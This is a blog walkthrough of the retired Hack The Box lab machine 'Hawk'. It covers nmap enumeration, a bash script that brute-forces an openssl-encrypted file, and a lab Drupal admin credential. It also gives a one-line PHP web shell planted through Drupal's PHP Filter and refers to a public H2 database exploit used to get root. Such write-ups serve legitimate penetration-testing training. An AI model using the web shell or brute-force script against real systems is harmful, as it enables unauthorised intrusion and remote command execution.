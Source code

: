 ```yaml
---
layout: post
title: "Hawk: Hack The Box Walkthrough"
subtitle: "When I bestride him, I soar; I am a hawk."
date: 2018-12-02 08:34:55 +0000
last_modified_at: 2018-12-09 08:24:05 +0000
category: Walkthrough
tags: ["Hack The Box", Hawk, retired]
comments: true
image:
  feature: hawk-htb-walkthrough.jpg
  credit: Prawny / Pixabay
  creditlink: https://pixabay.com/en/vintage-japanese-watercolour-1829844/
---
```


This post documents the complete walkthrough of Hawk, a retired vulnerable [VM][1] created by [mrh4sh][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Hawk is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -T5 -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.102
...
PORT     STATE SERVICE       REASON         VERSION
21/tcp   open  ftp           syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.13.108
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh           syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp   open  http          syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5435/tcp open  tcpwrapped    syn-ack ttl 63
8082/tcp open  http          syn-ack ttl 63 H2 database http console
|_http-favicon: Unknown favicon MD5: 8EAA69F8468C7E0D3DFEF67D5944FF4D
| http-methods:
|_  Supported Methods: GET POST
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc? syn-ack ttl 63
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.70%I=7%D=11/28%Time=5BFF2AED%P=x86_64-pc-linux-gnu%r(N
SF:ULL,45E,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o
SF:\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0
SF:i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\
SF:0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t
SF:\0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x01\xd8\0o\0r\0g\0\.\0h\x00
SF:2\0\.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0
SF::\0\x20\0R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\
SF:0t\0o\0\x20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n
SF:\0o\0t\0\x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0
SF:A\0l\0l\0o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x007\0-\x
SF:001\x009\x006\0\]\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s
SF:\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0J\0d\0b
SF:\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\
SF:0o\0n\0\.\0j\0a\0v\0a\0:\x003\x004\x005\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0
SF:g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0
SF:o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\
SF:0:\x001\x007\x009\0\)\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0
SF:e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\
SF:0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x005\x005\0\)\
SF:0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0
SF:D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\0
SF:t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x001\x004\x004\0\)\0\n\0\t\0a\0t\0\x20\0o
SF:\0r");
```

Going the `ftp` route reveals a `messages` directory that contains a hidden file `.drupal.txt.enc`. The file is encrypted by `openssl enc` as characterized by `Salted__` header.

<a class="image-popup">
![0b315a7f.png](/assets/images/posts/hawk-htb-walkthrough/0b315a7f.png)
</a>

## Decryption of AES-256-CBC

I'm guessing the password or passphrase to decrypt the file must be simple. As such, I wrote the following script to automate the decryption of the file by going through a wordlist.

<div class="filename"><span>decrypt.sh</span></div>

```bash
#!/bin/bash

CIPHERS=$1
FILE=$2
PASS=$3

for c in $(cat $CIPHERS); do
  openssl enc $c -d -a -salt -in $FILE -pass pass:"$PASS" &>/dev/null
  if [ $? -eq 0 ]; then
    d="$(openssl enc $c -d -a -salt -in $FILE -pass pass:$PASS 2>/dev/null)"
    echo "[+] Trying $c with '$PASS'..."
    printf "%s\n\n" "$d"
  fi
done
```

Since I don't know the cipher used, the script runs through all the available ciphers in `openssl enc`. Let's run the script.

```
# parallel -j4 ./decrypt.sh ciphers.txt .drupal.txt.enc "{}" < /usr/share/seclist/Passwords/darkweb-top1000.txt | tee decrypted.txt
```

<a class="image-popup">
![083d4843.png](/assets/images/posts/hawk-htb-walkthrough/083d4843.png)
</a>

## Drupal 7.58

This version is not affected by Drupalgeddon2. The credentials to the administrative interface is (`admin:PencilKeyboardScanner123`)

In order to write PHP code as pages in Drupal 7, the PHP Filter module needs to be enabled. Once you have done that, create a PHP page containing the following code:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

Simple as it looks, the code allows us to execute remote commands as `www-data`. Well, now we can run a reverse shell back to us.

I have a preference for Perl reverse shell because Perl is, more often than not, available in Linux.

## H2 1.4.196 Remote Code Execution

During enumeration of the `www-data` account, I notice the H2 database is ran as `root`. Simply run the proof-of-concept code from EDB-ID [45506](https://www.exploit-db.com/exploits/45506) to get a `root` shell.

[1]: https://www.hackthebox.eu/home/machines/profile/146
[2]: https://www.hackthebox.eu/home/users/profile/2570
[3]: https://www.hackthebox.eu/
